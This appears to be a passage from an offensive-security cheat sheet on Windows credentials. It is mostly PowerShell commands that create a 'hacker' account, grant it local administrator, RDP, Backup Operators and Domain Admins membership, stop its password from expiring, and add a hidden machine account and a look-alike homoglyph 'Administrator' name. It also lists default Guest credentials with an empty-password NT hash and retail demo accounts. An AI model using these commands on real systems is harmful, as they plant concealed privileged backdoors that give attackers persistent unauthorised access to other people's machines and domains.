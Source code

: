 # Windows - Using credentials

## Get credentials

### Create your credential

```powershell
net user hacker Hcker_12345678* /add /Y
net localgroup administrators hacker /add
net localgroup "Remote Desktop Users" hacker /add # RDP access
net localgroup "Backup Operators" hacker /add # Full access to files
net group "Domain Admins" hacker /add /domain

# enable a domain user account
net user hacker /ACTIVE:YES /domain

# prevent users from changing their password
net user username /Passwordchg:No

# prevent the password to expire
net user hacker /Expires:Never

# create a machine account (not shown in net users)
net user /add evilbob$ evilpassword

# homoglyph Aԁmіnistratοr (different of Administrator)
Aԁmіnistratοr
```

Some info about your user

```powershell
net user /dom
net user /domain
```

### Guest Credential

By default every Windows machine comes with a Guest account, its default password is empty.

```powershell
Username: Guest
Password: [EMPTY]
NT Hash: 31d6cfe0d16ae931b73c59d7e0c089c0
```

### Retail Credential

Retail Credential [@m8urnett on Twitter](https://twitter.com/m8urnett/status/1003835660380172289)

when you run Windows in retail demo mode, it creates a user named Darrin DeYoung and an admin RetailAdmin
